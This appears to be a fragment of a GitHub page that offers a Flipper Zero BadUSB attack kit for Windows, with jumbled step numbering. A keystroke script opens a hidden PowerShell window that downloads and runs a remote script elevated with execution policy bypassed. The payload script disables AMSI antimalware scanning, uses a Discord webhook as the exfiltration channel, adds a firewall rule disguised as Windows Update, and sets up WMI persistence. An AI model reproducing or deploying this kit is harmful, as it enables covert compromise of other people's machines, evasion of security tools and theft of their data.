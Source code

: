 ```
        }
        Clear-Content "$env:temp\systemlog.txt" -ErrorAction SilentlyContinue
    } catch {}
    Start-Sleep -Minutes 15
}
```

---

### **Step 3: (2nd version) Creating the Flipper Zero Payload**

The Flipper Zero will simulate keystrokes to download and execute the PowerShell script. Here’s the BadUSB script:

```
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -Command \"(New-Object Net.WebClient).DownloadFile(\`"LINKTOYOUROWNHOSTOF.PS1\`", \`"$env:temp\payload.ps1\`"); Start-Process powershell -ArgumentList \`"-ExecutionPolicy Bypass -File $env:temp\payload2.ps1\`" -Verb RunAs\"'"
DELAY 1000
ENTER
```

---
### **Step 2: 3d version)Modified PowerShell Script**

Save this as `payload.ps1`.

```

# Stage 1: Initialization and Elevation
If (-NOT ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Start-Process powershell.exe "-ExecutionPolicy Bypass -File `"$env:temp\payload.ps1`"" -Verb RunAs
    Exit
}

# Stage 2: Environment Preparation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

$webhookUrl = "YOUROWNDISCORDWEBHOOKURL"

# Stage 3: System Modifications
New-NetFirewallRule -DisplayName "Windows Update Service" -Direction Outbound -Action Allow -Program "powershell.exe" -ErrorAction SilentlyContinue

# Stage 4: Persistence Mechanisms
$persistenceScript = {
    $wmiArgs = @{
        EventNamespace = 'root/cimv2'
        Name = 'WindowsUpdateMonitor'
        Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LogonSession'"
        QueryLanguage = 'WQL'
    }
    $filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $wmiArgs

    $consumerArgs = @{
```